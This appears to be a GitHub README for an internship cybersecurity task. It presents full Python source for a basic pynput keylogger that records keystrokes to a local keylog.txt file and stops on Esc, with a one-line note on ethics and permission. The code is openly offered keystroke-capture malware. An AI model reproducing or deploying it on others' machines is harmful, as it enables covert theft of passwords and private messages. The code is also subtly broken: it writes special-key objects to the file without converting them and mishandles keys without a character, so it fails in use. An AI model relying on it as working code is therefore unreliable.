 # CyberBishal-CyberBishal-CyberBishal-ProdigyInfotech_InternshipTask4_Cyber_Security_by_Bishal_Biswas
I have created a basic keylogger program that records and logs keystrokes. It Focuses on logging the keys pressed and saving them to a file. Note: Ethical considerations and permissions are crucial for projects involving keyloggers.
So, Here is my Project , Check below :

import pynput.keyboard

# Global variable to store the logged keys
logged_keys = []

# Function to write logged keys to a file
def write_to_file(keys):
    with open("keylog.txt", "a") as file:
        for key in keys:
            # Convert special keys to strings
            if isinstance(key, pynput.keyboard.KeyCode):
                key = str(key.char)
            # Write the key to the file
            file.write(key)

# Function called when a key is pressed
def on_press(key):
    global logged_keys
    logged_keys.append(key)
    # Write logged keys to file after every 10 keys pressed
    if len(logged_keys) >= 10:
        write_to_file(logged_keys)
        logged_keys = []

# Function called when a key is released
def on_release(key):
    # Stop the keylogger by returning False
    if key == pynput.keyboard.Key.esc:
        return False

# Set up the keyboard listener
with pynput.keyboard.Listener(on_press=on_press, on_release=on_release) as listener:
    listener.join()

